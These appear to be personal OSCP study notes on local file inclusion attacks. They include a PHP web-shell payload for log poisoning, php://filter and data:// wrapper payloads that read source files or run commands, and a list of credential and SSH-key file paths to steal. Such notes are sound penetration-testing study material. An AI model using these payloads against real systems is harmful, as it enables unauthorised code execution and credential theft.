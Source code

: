 		Try [LFI](obsidian://open?vault=Obsidian%20Vault&file=OSCP%20Prep%2FPEN-200%2F6%20Common%20Web%20App%20Attacks%2F1%20File%20Inclusion%20Vulnerabilities)
			user agent poisoning: 
			user agent > `<?php echo system($_GET['cmd']); ?>`
			then `../../../../../../path_to_log_file/file.log&cmd=whoami`
				/var/log/apache2/access.log is common
		Fail?
		Enumerate:
	Looking for creds?
		Try looking through webapp documentation. It might point you to the file path you need to look at
			look for github pages of the product
			look for DUPLICATE conf files (might be more than 1)
		Sai's OSCP cheatsheet shows common file locations to check
	Need to READ a .php file?
		accessing it will run it
		instead, [[PHP Wrappers]] can be used to read their contents (DO BOTH -- encoding may be required)
			`#remove .php from <file> at end of filter`
			1. `index.php?page=php://filter/resource=<file>` 
			2. `index.php=file=php://filter/convert.base64-encode/resource=<file>
	Wrapper to embed data elements
		see [[PHP Wrappers]]
		`index.php?page=data://text/plain,<?php%20echo%20system('<cmd>');?>`
	Zip and RAR filters see [[PHP Wrappers]] as well
	Look through user directories in `/home/<user>` (LINUX)
		Are you able to list directory contents?
			yes?
				great!
			no?
				`/home/<user>/.bash_history
				`/home/<user>/.bashrc
				`/home/<user>/.bash_logout
				`/home/<user>/.profile
				`/home/<user>/.ssh/id_<key_algo_type>` (try multiple like rsa, ecdsa, etc)
```
# Found SSH keys?
try on multiple users! not just the user you found it in. Treat it like you would password reuse
```

```
# why both /tmp and /dev/shm?

For system services systemd provides the `PrivateTmp=` boolean setting. If turned on for a service (👍 which is highly recommended), `/tmp`/ and `/var/tmp`/ are replaced by private sub-directories, implemented through Linux file system namespacing and bind mounts.

/dev/shm is a shared temp storage loaded in RAM
```

```
Some files we will not be able to read with path traversal alone, loike .php, .py, etc and will need another method to read their contents
```

LFI cont.
	File of LFI payloads to use, combine LFI attack with FUZZING (ffuf)
	https://raw.githubusercontent.com/emadshanab/LFI-Payload-List/master/LFI%20payloads.txt
